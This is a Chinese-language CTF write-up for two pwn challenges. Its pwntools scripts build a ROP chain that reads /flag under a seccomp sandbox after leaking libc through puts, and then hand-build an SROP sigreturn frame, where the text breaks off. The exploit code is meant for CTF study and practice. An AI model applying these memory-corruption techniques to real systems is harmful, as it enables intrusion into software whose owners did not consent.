 ### warmup

只能溢出 0x10 字节，但是上一个栈帧的 `buf` 空间较大且可控，因此可以多 ret 一次回到上一个栈帧的 `buf` 里构造 ROP 链。此外，程序开启了 seccomp 沙箱禁止 `execve`，因此我们只能构造 ORW 读 flag。幸运的是题目直接给了 puts 地址，可以得到 libc 地址从而使用 libc 的 gadgets，而 ORW 使用的缓冲区也可以利用 libc 的 rw 段。

```python
ru('0x')
puts = int(ru('\n'),16)
base = puts-libc.sym['puts']
leak('base',base)
pop_rdi = base+0x21102
pop2 = base+0x1150c9 # rdx,rsi
ret = base+0x937
open = base+libc.sym['open']
read = base+libc.sym['read']
buf = base+libc.sym['_IO_2_1_stderr_']

chain = [
    # read(0,buf,8)
    pop_rdi,0,pop2,8,buf,read,
    # open(buf,0,0)
    pop_rdi,buf,pop2,0,0,open,
    # read(3,buf,0x100)
    pop_rdi,3,pop2,0x100,buf,read,
    # puts(buf)
    pop_rdi,buf,puts
]
sa('thing:',flat(chain))
payload = flat('a'*0x70,'a'*8,ret)
sa('name?',payload)
s('/flag\x00\x00\x00')
```

### babybabypwn_1

看到程序主动调用 `syscall(15,&buf)` 可知是 SROP，我们需要在 `buf` 里放伪造的 Sigreturn Frame，然后程序就会调用 `rt_sigreturn` 恢复我们伪造的 frame。同样开启了沙箱，依然是构造 ORW 读 flag。

这里在使用 `pwnlib.rop.srop` 模块时，用 `SigreturnFrame` 构造时出现了一些问题，暂时还不清楚原因，使用了手动构造 frame 的办法。

```python
ru('0x')
puts = int(ru('\n'),16)
base = puts-libc.sym['puts']
leak('base',base)
pop_rdi = base+0x21102
pop2 = base+0x1150c9
syscall = base+libc.sym['syscall']
open = base+libc.sym['open']
read = base+libc.sym['read']
buf = base+0x3c6500

frame  = p64(0) * 12
frame += p64(0)         # rdi
frame += p64(0)         # rsi
frame += p64(0)         # rbp
frame += p64(0)         # rbx
frame += p64(buf-0x10)  # rdx
frame += p64(0)         # rax
frame += p64(0x100)     # rcx
frame += p64(buf)       # rsp
frame += p64(syscall)   # rip
frame += p64(0)         # eflags
frame += p64(0x33)      # cs/fs/gs
```